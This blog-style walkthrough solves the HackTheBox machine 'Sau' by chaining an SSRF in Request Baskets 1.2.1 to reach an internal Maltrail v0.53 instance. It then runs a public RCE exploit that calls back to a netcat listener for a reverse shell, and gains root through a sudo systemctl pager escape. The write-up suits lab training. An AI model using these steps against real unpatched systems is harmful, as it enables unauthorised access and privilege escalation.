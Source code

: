# Sau

## Overview

Hello everyone, In this blog we are going to solve Sau from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Sau](https://app.hackthebox.com/machines/Sau)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

First I started by scanning for open ports on the target machine.

<figure><img src="../.gitbook/assets/Untitled (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 1 (5).png" alt=""><figcaption></figcaption></figure>

From the response of the `nmap` , there are 3 open ports of which one is SSH running on port 22, on port 80 HTTP service is running, but its filtered by firewall and the other one is running on port `55555` , which is unknown, but returns a response for HTTP GET request.

On visiting port 55555 on via browser, It returned a website.

***

## Enumerating the Website

<figure><img src="../.gitbook/assets/Untitled 2 (5).png" alt=""><figcaption></figcaption></figure>

In the website is running the `request baskets` service version `1.2.1`. On searching about this service on google, found this:&#x20;

{% embed url="https://www.exploit-db.com/exploits/51675" %}

&#x20;which proves that the website is vulnerable to SSRF vulnerability. To exploit this vulnerability first create a new basket.

<figure><img src="../.gitbook/assets/Untitled 3 (5).png" alt=""><figcaption></figcaption></figure>

Next make a note on the basket name and the access token and click on open basket.

<figure><img src="../.gitbook/assets/Untitled 4 (5).png" alt=""><figcaption></figcaption></figure>

After opening the basket click on the settings icon on the top right corner.

<figure><img src="../.gitbook/assets/Untitled 5 (5).png" alt=""><figcaption></figcaption></figure>

It open a configuration dialog box.

<figure><img src="../.gitbook/assets/Untitled 6 (5).png" alt=""><figcaption></figcaption></figure>

On the configuration dialog box, fill the details as shown in the above figure and click apply. By configuring as mentioned above, we are trying to access the HTTP service running on port `80` which was blocked by the firewall on the target machine by leveraging the SSRF vulnerability.

Basically what ever URL we configure on request basket, the request basket will send a GET request on its behalf and fetch the results for us, in our case it acts like a proxy to fetch the website, which is not accessible to use from the outside network, but is accessible to request basket application, since it is running on the same network on which the web service is running.

<figure><img src="../.gitbook/assets/Untitled 7 (4).png" alt=""><figcaption></figcaption></figure>

Now open the link \[ mentioned in the above picture, link might be different in your case ] in a new tab.

<figure><img src="../.gitbook/assets/Untitled 8 (4).png" alt=""><figcaption></figcaption></figure>

We can see a website which is running `Maltrail v0.53`, nothing else is interesting on the website. So I started searching about `Maltrail v0.53`, and found this&#x20;

{% embed url="https://www.exploit-db.com/exploits/51676" %}

from which we can devise that the service is vulnerable to RCE.

***

## Getting the User Flag

I downloaded the payload to give it a try.

{% embed url="https://www.exploit-db.com/download/51676" %}

<figure><img src="../.gitbook/assets/Untitled 9 (3).png" alt=""><figcaption></figcaption></figure>

Before executing the payload, I started a `netcat` listener on port 8000.

<figure><img src="../.gitbook/assets/Untitled 10 (3).png" alt=""><figcaption></figcaption></figure>

Now its time to execute the payload.

Command: `python3 51676 <HTB_VPN_TUN_IP> 8000 <the_request_basket_address_that_we_used_to_access_the_web_service>`

<figure><img src="../.gitbook/assets/Untitled 11 (3).png" alt=""><figcaption></figcaption></figure>

After executing the exploit, check the `netcat` listener.

<figure><img src="../.gitbook/assets/Untitled 12 (3).png" alt=""><figcaption></figcaption></figure>

We successfully got the connection back. Now we got our initial access to the target machine. First I upgraded the shell.

Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

<figure><img src="../.gitbook/assets/Untitled 13 (3).png" alt=""><figcaption></figcaption></figure>

And also I found the user flag.

<figure><img src="../.gitbook/assets/Untitled 14 (3).png" alt=""><figcaption></figcaption></figure>

***

## Getting the Root Flag

Now its time to escalate our privileges and find the root flag.

I was looking out for some common privilege escalation vectors and found this.

<figure><img src="../.gitbook/assets/Untitled 15 (1) (1).png" alt=""><figcaption></figcaption></figure>

The user `puma` can run the command `/usr/bin/systemctl status trail.service` as `sudo` without entering the password. I checked GTFObins regarding this and found this&#x20;

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/#sudo" %}

<figure><img src="../.gitbook/assets/Untitled 16 (1) (1).png" alt=""><figcaption></figcaption></figure>

Thus if we run the command `sudo /usr/bin/systemctl status trail.service` , then run the command `!sh` after entering into the less page, we can escalate our privileges as root.

<figure><img src="../.gitbook/assets/Untitled 17 (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we have successfully escalated our privileges as root. Now its time to find the root flag.

<figure><img src="../.gitbook/assets/Untitled 18 (1) (1).png" alt=""><figcaption></figcaption></figure>

We have successfully found the root flag.

Thank You…….
